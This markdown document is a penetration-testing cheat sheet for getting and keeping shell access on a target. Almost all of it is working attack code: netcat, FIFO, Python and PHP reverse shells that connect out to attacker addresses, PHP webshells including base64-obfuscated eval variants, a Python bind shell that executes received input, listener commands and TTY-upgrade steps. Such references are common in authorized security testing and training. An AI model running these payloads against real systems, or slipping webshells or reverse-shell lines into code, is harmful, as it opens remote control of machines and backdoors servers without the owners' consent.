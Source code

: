 # Shell Cheatsheet

## Reverse Shell

### Shell


```
nc -c '/bin/bash -c "script /dev/null"' 127.0.0.1 1337
```

```
nc -e /bin/sh 10.0.0.1 1234
```

Using FIFO (Doesn't work with upgrading?)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.170",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


### PHP

Minimal webshell (`?cmd=ls`)

```
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

Decodes the Base64 encoded string and evaluates the decoded string "system('ls -la');" as PHP code:
```
<?php
eval(base64_decode("c3lzdGVtKCdscyAtbGEnKTsNCg=="));
?>
```

Base64 encoded cmd webshell
```
<?php eval(base64_decode("aWYoaXNzZXQoJF9SRVFVRVNUWydjbWQnXSkpeyBlY2hvICI8cHJlPiI7ICRjbWQgPSAoJF9SRVFVRVNUWydjbWQnXSk7IHN5c3RlbSgkY21kKTsgZWNobyAiPC9wcmU+IjsgZGllO30=")); ?>
```

Reverse shell using a socket
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Bind Shell

### Python

Connect via `nc`:
```
import socket as a; s = a.socket();s.bind(('0.0.0.0',1337));s.listen(1);(r,z) = s.accept();exec(r.recv(999))
```

After connecting upgrade via:
```
import pty,os;os.dup2(r.fileno(),0);os.dup2(r.fileno(),1);os.dup2(r.fileno(),2);pty.spawn("/bin/sh");s.close()
```


## Listener

### Shell

#### General Listener

Basic Listener, useful with upgrading
```
nc -vvlp 1337
```

```
stty -echo raw; nc -lp 1337; stty sane
```

#### Listen on a specific IP
```
nc -l -p 4444 -s 127.0.0.1
```


## Upgrading


### Shell

- Use bash, not zsh
- In reverse shell: Execute bash (for example using the Python method below)
- In reverse shell: `export TERM=xterm-256color`
- Switch to background with CTRL+Z
- Configure local shell: `stty raw -echo`
- Execute `fg`
- In reverse shell: `reset`

### Python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### MSF

```
use post/multi/manage/shell_to_meterpreter
```


## Resources

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [xl7dev](http://blog.safebuff.com/2016/06/19/Reverse-shell-Cheat-Sheet/)
- [Shell upgrading](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Web Shells Introduction](https://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)
